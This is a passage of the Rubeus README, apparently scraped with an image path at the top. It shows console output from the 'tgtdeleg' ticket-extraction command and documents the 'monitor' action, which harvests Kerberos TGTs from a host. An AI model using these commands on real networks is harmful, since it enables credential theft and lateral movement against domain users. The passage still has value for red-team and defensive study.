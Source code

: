  C:\Rubeus>Rubeus.exe tgtdeleg

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3


 [*] Action: Request Fake Delegation TGT (current user)

 [*] No target SPN specified, attempting to build 'HOST/dc.domain.com'
 [*] Initializing Kerberos GSS-API w/ fake delegation for target 'HOST/PRIMARY.testlab.local'
 [+] Kerberos GSS-API initialization success!
 [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
 [*] Found the AP-REQ delegation ticket in the GSS-API output.
 [*] Authenticator etype: aes256_cts_hmac_sha1
 [*] Extracted the service ticket session key from the ticket cache: YnEFxPfqw3LdfNvLtdFfzaFf7zG3hG+HNjesy+6R+ys=
 [+] Successfully decrypted the authenticator
 [*] base64(ticket.kirbi):

 doIFNjCCBTKgAwIBBaEDAgEWoo...(snip)...


### monitor

The **monitor** action will periodically extract all TGTs every `/monitorinterval:X` seconds (default of 60) and display any newly captured TGTs. A `/targetuser:USER` can be specified, returning only ticket data for said user. This function is especially useful on servers with unconstrained delegation enabled

When the `/targetuser:USER` (or if not specified, any user) creates a new 4624 logon event, any extracted TGT KRB-CRED data is output.

The `/nowrap` flag causes the base64 encoded ticket output to no wrap per line.

Further, if you wish to save the output to the registry, pass the `/registry` flag and specfiy a path under HKLM to create (e.g., `/registry:SOFTWARE\MONITOR`). Then you can remove this entry after you've finished running Rubeus by `Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force`.

 c:\Rubeus>Rubeus.exe monitor /targetuserC$ /interval:10

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
